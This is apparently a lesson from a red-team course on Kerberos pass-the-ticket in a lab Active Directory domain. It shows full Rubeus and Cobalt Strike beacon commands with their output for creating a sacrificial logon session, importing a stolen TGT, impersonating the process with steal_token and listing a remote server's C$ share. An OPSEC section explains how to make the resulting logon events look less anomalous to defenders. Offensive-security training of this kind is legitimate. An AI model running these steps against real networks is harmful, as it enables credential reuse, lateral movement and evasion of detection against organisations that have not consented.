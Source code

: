 Pass the ticket is a technique that allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to, or a new one you create.  Accessing a remote resource will then allow that authentication to happen via Kerberos.

For this, we can leverage the TGT we extracted from jking's logon session on Workstation 2.

The first step is to create a blank, "sacrificial" logon session that we can pass the TGT into.  We do this because a logon session can only hold a single TGT at a time.  If we passed jking's TGT into the LUID for bfarmer, it would erase bfarmer's TGT and cause all sorts of authentication issues for the user.

  Creating a new logon session and passing tickets into sessions other than your own requires elevated privileges.

  

Rubeus' `createnetonly` command will start a new hidden process of our choosing, using the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : False
[*] Username        : GJB9A2GP
[*] Domain          : VPY1XQRP
[*] Password        : R4ABN1K3
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4748
[+] LUID            : 0x798c2c
```
  

This also creates a new LUID.  It will have no tickets inside, so won't be visible with `triage` just yet.  The next step is to pass the TGT into this new LUID using the Rubeus `ptt` command.  Where the `/luid` is the new LUID we just created and `/ticket` is the base64 encoded ticket we previously extracted.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

[*] Action: Import Ticket
[*] Target LUID: 0x798c2c
[+] Ticket successfully imported!
  ```

Rubeus triage will now show jking's TGT inside this LUID.
```
 | 0x798c2c | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 5:29:20 PM |
```
The final step is to impersonate the process that we created with createnetonly using Cobalt Strike's `steal_token` command.  At a minimum, this requires the PID of the target process, which in this example, is 4748.  We'll then be able to access the remote machine.
```
beacon> steal_token 4748

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:02:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/31/2022 17:40:32   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     08/30/2022 11:16:24   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     08/30/2022 20:19:27   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/01/2022 07:26:41   DumpStack.log.tmp
 384mb    fil     09/01/2022 07:26:41   pagefile.sys
```
  

As before, use `rev2self` to drop the impersonation.  To destroy the logon session we created, simply kill the process with the `kill` command.
```
beacon> rev2self
beacon> kill 4748
```
  

Rubeus triage will no longer show the logon session.

  

  **OPSEC**  
  
By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.  The "Suspicious Logon Events" saved search will show 4624's where the _TargetOutboundDomainName_ is not an expected value.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/a36/bc1/418/createnetonly-logon.png)

  

We can provide these options on the command line to make the fields appear less anomalous.  The password does not have to be the users' actual password.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123
```